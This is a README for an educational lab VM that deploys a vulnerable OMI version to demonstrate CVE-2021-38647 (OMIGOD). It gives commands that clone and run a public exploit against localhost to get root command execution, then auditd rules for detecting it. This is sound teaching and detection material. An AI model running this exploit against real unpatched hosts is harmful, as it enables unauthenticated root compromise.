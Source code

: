 # Readme

An educational lab VM to learn about the 9.6 CVSS unauthenticated Remote Code Execution (RCE) vulnerability in Open Management Infrastructure software (CVE-2021-38647).

Disclosure (original research): https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

OMI source code: https://github.com/microsoft/omi

news:
* https://nakedsecurity.sophos.com/2021/09/16/omigod-an-exploitable-hole-in-microsoft-open-source-code/
* https://www.zdnet.com/article/omigod-azure-users-running-linux-vms-need-to-update-now/
* https://threatpost.com/microsoft-patch-tuesday-exploited-windows-zero-day/169459/

Write up:
* https://censys.io/blog/understanding-the-impact-of-omigod-cve-2021-38647/

Read some of the above before proceeding.

## Setup

* Install [Vagrant](https://www.vagrantup.com/)
* Install a [supported hypervisor](https://app.vagrantup.com/generic/boxes/ubuntu2004)

```shell
vagrant up
vagrant ssh
```

This will setup Ubuntu 20.04 (Focal Fossa). Thanks [Roboxes](https://roboxes.org/) for the Vagrant box.

Installed by `playbook.yml`:

* omi-1.6.8-0.ssl_110.ulinux.x64.deb - `sha256:2e0813ee3f2a71028f071d9933ca2f336faaaf9b6126d5f1767ffcbc7e803279`
* scx-1.6.8-1.ssl_110.ulinux.x64.deb - `sha256:1cba16e3b307177cbe15bd3fd8a2a87ab8d638846988202be8a17981b5e900c9`

Don't put this VM on the internet :-)

## Exploiting

Thanks to vagrant a port forward on localhost:5986 to 5986 in the VM will be open after bring the box up. We have a lab VM to test with now.

#### CVE-2021-38647

Public exploit code:
* https://github.com/horizon3ai/CVE-2021-38647
* https://github.com/Immersive-Labs-Sec/cve-2021-38647

To run the exploit from your desktop or inside the VM after reading `omigod.py`, this is why the git commands checkout a set commit! Do not run unknown random exploit code.

```shell
cd ~/Downloads
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647
git checkout 2eaf8ab6f1fe8f1691401a3e36da4407997f4cfc || exit 1
python3 -m venv omigod-env
source omigod-env/bin/activate
python3 -m pip install requests urllib3
python3 omigod.py -t 127.0.0.1 -c hostname
```

You should see `ubuntu2004.localdomain` as the output the the hostname command. 

Or if you run `id` command you can see:

```
uid=0(root) gid=0(root) groups=0(root)
```

😬

## Using omi

The Getting Started doco from MS:
https://github.com/microsoft/omi/blob/master/Unix/doc/omi/omi.pdf

## Detect

Inside the VM auditd is installed.

Log all command exec:

```shell
sudo auditctl -a exit,always -F arch=b32 -S execve -k execve
sudo auditctl -a exit,always -F arch=b64 -S execve -k execve
```

```shell
sudo tail -f /var/log/audit/audit.log
```

The output from sending a command:

```
type=SYSCALL msg=audit(1631977306.937:107): arch=c000003e syscall=59 success=yes exit=0 a0=7f906c002570 a1=7f906c001330 a2=7fffe5148108 a3=7f90751453f0 items=2 ppid=8552 pid=9974 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="sh" exe="/usr/bin/dash" key="execve"
type=EXECVE msg=audit(1631977306.937:107): argc=3 a0="/bin/sh" a1="-c" a2="whoami"
type=CWD msg=audit(1631977306.937:107): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:107): item=0 name="/bin/sh" inode=5374016 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:107): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:107): proctitle=2F62696E2F7368002D630077686F616D69
type=SYSCALL msg=audit(1631977306.937:108): arch=c000003e syscall=59 success=yes exit=0 a0=564c4e436b90 a1=564c4e436b38 a2=564c4e436b48 a3=7f5b83f28850 items=2 ppid=9974 pid=9975 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="whoami" exe="/usr/bin/whoami" key="execve"
type=EXECVE msg=audit(1631977306.937:108): argc=1 a0="whoami"
type=CWD msg=audit(1631977306.937:108): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:108): item=0 name="/usr/bin/whoami" inode=5374366 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:108): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:108): proctitle="whoami"
```

Someone has run "whoami".

Microsoft note this in the blog post "Additional Guidance Regarding OMI Vulnerabilities within Azure VM Management Extensions" on detection:

https://msrc-blog.microsoft.com/2021/09/16/additional-guidance-regarding-omi-vulnerabilities-within-azure-vm-management-extensions/
